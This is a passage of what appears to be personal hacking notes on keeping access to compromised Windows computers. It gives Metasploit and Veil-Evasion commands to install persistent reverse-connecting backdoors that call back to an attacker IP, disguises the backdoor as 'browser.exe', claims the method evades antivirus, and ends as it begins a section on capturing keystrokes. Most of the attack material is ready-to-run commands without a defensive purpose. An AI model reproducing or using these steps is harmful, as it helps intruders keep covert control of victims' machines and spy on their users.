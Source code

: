 Use a rev_http_service instead of the normal backdoor used to connect to the target
Set a veil http service als upload it to the target computer
```
> veil-evasion
> list
> use 5
Set up the rest
```

#### Method 2: using persistence module in meterpreter (Detectable by antivirus programs)
`meterpreter> run persistence -h` (to show the options)
`meterpreter> run persistence -U -i 20 -p 80 -r 10.20.14.203`
-U to run it under user privileges, when the user logs on
-i is trying to connect back to the hacker every 20 seconds in this case
-p port 80 is used to connect
-r is the ip address where the service tries to connect with

#### Method 3: Reliable and undetectable (metasploit + veil)

Background the existing meterpreter session
`meterpreter> background`

Use a persistence exploit in metasploit
```
msf exploit(handler)> use exploit/windows/local/persistence
msf exploit(persistence)> show options
```
DELAY: amount of time to keep reconnecting back
EXE_NAME: filename used on the target host in the processes
`> set EXE_NAME browser.exe`
SESSION: which session to run the exploit aan
verify if there are running sessions: `> sessions -l`
`> set SESSION 1`

##### Show advanced options for this module
`> show advanced`

`set EXE::Custom /var/www/html/backdoor.exe`

Upload the exploit to session 1
`exploit`

When you kill the running meterpreter sessions (`sessions -K`)
and the target pc reboots, so no more connections remaining, and you 
use exploit/multi/handler to listen to the port specified in the backdoor you uploaded.
##### YOU ALWAYS WILL GET A CONNECTION!!!!

### Spying: Capturing Keys Strikes & Taking screen shots

#### Capturing Key Strikes

After having an active meterpreter session

